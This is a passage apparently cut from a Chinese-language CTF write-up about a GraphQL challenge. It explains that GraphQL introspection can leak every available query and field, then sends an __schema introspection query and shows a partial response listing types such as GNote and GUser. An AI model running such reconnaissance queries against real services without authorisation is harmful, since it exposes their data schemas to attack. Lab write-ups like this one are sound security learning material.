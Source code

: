 ```json
				"notes"
			]
		}
	],
	"data": {
		"notes": null
	}
}
```

看来事情没有这么简单，但是又不太懂 graphql，那怎么查询呢？想了一下，别的 CTF 比赛应该也有相似类型的题目，用 graphql + ctf 两个关键词去搜索，果然找到了些许思路。

- https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/
- https://hwlanxiaojun.github.io/2020/04/14/当CTF遇上GraphQL的那些事/
- https://www.jianshu.com/p/e59a27a15b5a 的 GraphQL-WEB 部分

总的来说，是由于 GraphQL 存在内省机制，如果不加以处理，则可能会泄露系统中所有的可用的查询，以及查询支持的字段等信息。

这题估计也是要利用类似的漏洞，我们先通过`__schema`查询所有可用对象试试
```request
{
    __schema {
        types {
            name
        }
    }
}
```
结果如下
```json
{
	"data": {
		"__schema": {
			"types": [
				{
					"name": "Query"
				},
				{
					"name": "GNote"
				},
				{
					"name": "Int"
				},
				{
					"name": "String"
				},
				{
					"name": "GUser"
				},
				{
					"name": "Boolean"
				},
				{
					"name": "__Schema"
				},
				{
					"name": "__Type"
				},
				{
					"name": "__TypeKind"
				},
				{
					"name": "__Field"
				},
				{
```